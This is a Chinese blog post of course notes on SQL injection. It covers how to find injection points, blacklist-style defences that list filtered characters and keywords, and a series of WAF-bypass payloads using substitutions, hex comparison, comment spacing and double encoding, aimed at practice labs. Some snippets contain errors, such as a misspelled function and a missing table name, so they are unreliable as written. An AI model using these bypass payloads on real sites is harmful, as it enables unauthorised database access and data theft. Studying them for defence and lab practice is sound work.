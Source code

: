 ```yaml
---
layout:       post
title:        "极客时间Web安全笔记"
subtitle:     "null"
date:         2020-10-27 02:49:54
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: true
tags:
    - Sec
    - WebSec
---
```



# 0x00 前言

Null

---


# 22. SQL注入实战：判断SQL注入点&防御方式

*TIPS:带参数的动态网页且该网页访问了数据库，就有可能存在SQL注入*

## 一、注入点判断：单引号判断法

字符型整型都可

* *靶机：sqli-labs, xforburp.com, bwapp*

* *注不出数据的时候可尝试加`%`应对LIKE查询*

## 二、防御

### (1) 减少错误信息反馈
### (2) 对输入的特殊符号进行转义（黑名单机制）

`\x00`		`\n`	`\r`	`\`	`'`	`"`	`\x1a`

### (3) 对输入的特殊词组进行过滤（黑名单机制）（PHP的`mysql_escape_string`）

`and` `or` `union` `select` 空格

---


# 34 SQL注入实战：如何绕过WAF之混淆注入原理

大小写绕过

* *字段名也不是大小写敏感的*

---


# 35 SQL注入实战：如何绕过WAF之`union`、`where`、`limit`过滤绕过

## 一、`&&`和`||`绕过

用`&&`和`||`替代`and`和`or`

## 二、`union`过滤绕过

原来的 
```sql
union select user, password from users
```

替换成 
```sql
|| (select user from users where user_id=1) = 'admin'
```

这里`||`的使用类似于布尔盲注

## 三、`where`过滤绕过

原来的 
```sql
|| (select user from users where user_id=1) = 'admin'
```
替换成 
```sql
|| (select user from users limit 1,1) = 'admin'
```

## 四、`limit`过滤绕过

原来的 
```sql
|| (select user from users limit 1,1) = 'admin'
```

替换成 
```sql
|| (select min(user) from group by user_id having user_id=1) = 'admin'
```

通过`having`选择`group`并通过`min`从中取出单个user

---


# 36 SQL注入实战：如何绕过WAF之`group by`、`select`、单引号、`hex`、`unhex`、`substr`绕过

## 一、`group by`过滤绕过
原来的 
```sql
|| (select min(user from group by user_id having user_id=1) 'admin'
```

替换成 
```sql
|| select substr((select group_comcat(name)name from test), 1, 1) = 't'
```

## 二、`select`及单引号过滤绕过

原来的 
```sql
|| select substr((select group_concat(name)name from test), 1, 1) = 't'
```

替换成 
```sql
|| substr(name, 1, 1)=0x74
```
或 
```sql
|| substr(name, 1, 1)=unhex(74)
```

这里`||`的使用类似于布尔盲注，使用时可以不要`select`；

用**十六进制值**逐个字符进行判断就不需要引号了

## 三、`hex`、`unhex`及`substr`过滤绕过——`binary`

原来的 
```sql
|| substr(name, 1, 1) = unhex(74)
```

替换成 
```sql
|| binary(name) = 0x74657374
```

`binary`返回数据的十六进制值

---


# 37 SQL注入实战：如何绕过WAF之空格、等号、双写、双重编码绕过

## 一、空格过滤绕过

```sql
select/**/name/**/from/**/test;
```

或通过**URL编码**绕过WAF

## 二、等号过滤绕过

使用`like`关键字代替等号

## 三、双写绕过

## 四、双重编码绕过

有些WAF只解析一次URL编码后过滤，如果**编码两次**的话就可能会绕过WAF，并被后端执行

## 五、转义函数也不是万能的

## 六、总的来说，分为以下几种方式

1. SQL语句的同义变形体
2. 利用WAF规则设定的缺陷（如双写）
3. 利用技术链中间环节绕过（如编码）

![公众号二维码](https://neptliang.github.io/img/Article/WeChatBlog.png)